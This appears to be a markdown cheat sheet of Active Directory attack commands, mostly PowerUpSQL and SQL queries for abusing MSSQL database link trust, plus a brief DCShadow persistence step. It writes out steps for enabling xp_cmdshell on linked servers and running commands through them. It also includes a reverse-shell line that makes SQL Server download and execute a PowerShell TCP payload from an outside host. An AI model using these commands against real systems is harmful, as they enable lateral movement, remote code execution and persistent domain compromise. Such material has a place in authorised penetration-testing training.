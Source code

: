 # Trust Abuse MSSQL Servers

#### Pre-requisites
#### PowerUpSQL:
```powershell
. .\PowerUpSQL.ps1
```
Link: [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

Software: [HeidiSQL Client](https://github.com/HeidiSQL/HeidiSQL)

**1. Enumeration:**
```powershell
# Discovery (SPN Scanning)
Get-SQLInstanceDomain
# Discovery (SPN Scanning) with Info and Verbose mode
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose
# Check accessibility
Get-SQLConnectionTestThreaded
# Check accessibility
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
**2. Database Links:**
```powershell
# Searching Database Links
Get-SQLServerLink -Instance dcorp-mssql -Verbose
# Enumerating Database Links
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```
```mysql
# Searching Database Links
select * from master..sysservers
# Enumerating Database Links
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```
**3. Command Execution:**
```powershell
# Command: whoami
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" | ft
# Reverse Shell
Get-SQLServerLinkCrawl -Instance dcorp-mssql.corp.corporate.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://<address>/Invoke-PowerShellTcp.ps1'')"'
```
```mysql
# Enable xp_cmdshell
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "eu-sql"
# Command: whoami
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt","select * from openquery("eu-sql.eu.corporate.local",""select@@version as version;exec master..xp_cmdshell "powershell whoami)"")")')
```

# Forest Persistence DCShadow

**1. Setting the permissions:**
```powershell
# Setting the permissions
Set-DCShadowPermissions -FakeDC corp-user1 -SAMAccountName root1user -Username user1 -Verbose
```
